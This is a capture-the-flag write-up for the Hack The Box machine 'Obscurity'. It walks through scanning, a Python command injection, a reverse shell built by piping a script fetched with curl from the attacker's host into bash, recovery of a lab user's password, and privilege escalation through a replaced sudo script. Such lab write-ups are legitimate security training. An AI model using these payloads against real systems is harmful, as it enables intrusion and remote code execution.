

# [Obscurity](https://app.hackthebox.com/machines/Obscurity)

```bash
nmap -p- --min-rate 10000 10.10.10.168 -Pn 
```


Let's do greater scan for these open ports.

```bash
nmap -A -sC -sV -p22,80,8080 10.10.10.168 -Pn
```


Let's do `directory enumeration`.

```bash
gobuster dir -u http://10.10.10.168/ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -t 40
```


We cannot do `directory enumeration`, we have a lot of errors.


There's I see some message that `SuperSecureServer.py` is running for this target application.


Let's try to find this file's exact location via `wfuzz`.
```bash
wfuzz -c -w dev_dirs -u http://10.10.10.168:8080/FUZZ/SuperSecureServer.py --hl 6 --hw 367
```


Now, I currently know exact location of this file that `/develop/SuperSecureServer.py`


On `Request` class, there's method called `parseRequest` which , there's command injection is possible.
```bash
/';os.system('ping%20-c%201%2010.10.14.7');'
```


Let's enter this input and see result via `tcpdump` for `tun0` interface.


Now, it's time for reverse shell.


1.First, I create my malicious `bash` script.


2.Then, I open http server to serve this file
```bash
python3 -m http.server --bind 10.10.14.7 8080
```


3.Let's enter below input to get command injection.
```bash
/';os.system('curl%2010.10.14.7:8080/dr4ks.sh|bash');'
```




Hola, I got reverse shell from port `1337`.


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```


I find `SuperSecureCrypt.py` file on `robert's` desktop, let's abuse this.

```bash
python3 SuperSecureCrypt.py -i out.txt -k "Encrypting this file with your key should result in out.txt, make sure your key is correct!" -d -o /dev/shm/key.txt
```


I got password of `robert` user.


robert: SecThruObsFTW


user.txt


For privilege escalation, I just run `sudo -l` on terminal.


Now, I will try to change name of directory called `BetterSSH` to another name via `mv` command, then create `BetterSSH` script which has malicious `python` script inside of this.

```bash
echo -e '#!/usr/bin/env python3\n\nimport pty\n\npty.spawn("bash")' > BetterSSH.py 
```


root.txt

